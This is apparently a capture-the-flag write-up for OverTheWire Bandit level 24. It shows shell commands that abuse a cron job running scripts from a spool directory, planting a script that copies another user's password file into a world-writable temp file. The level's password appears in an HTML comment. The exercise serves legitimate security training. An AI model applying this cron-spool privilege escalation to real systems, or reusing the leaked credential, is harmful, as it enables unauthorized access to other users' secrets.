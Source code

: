 ## Level Goal

[URL](https://overthewire.org/wargames/bandit/bandit24.html).
A program is running automatically at regular intervals from cron, the time-based job scheduler.
Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!
NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

```shell
ssh -p 2220 bandit23@bandit.labs.overthewire.org
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
mktemp -d # create a temp directory to create a shell file
cd /tmp/tmp.iWS0YkMqeM/
# give every user permission to read/write to this directory and the files
touch b24.sh pass.txt
chmod 777 b24.sh
chmod 777 pass.txt
chmod 777 /tmp/tmp.iWS0YkMqeM/
# add command to copy bandit24 password to the pass.txt 
cat <<EOF > b24.sh
> #!/bin/bash
>
> cat /etc/bandit_pass/bandit24 > /tmp/tmp.iWS0YkMqeM/pass.txt
> EOF
cp b24.sh /var/spool/bandit24/foo
tail -f pass.txt
```

The password for the next level is: <!-- gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 -->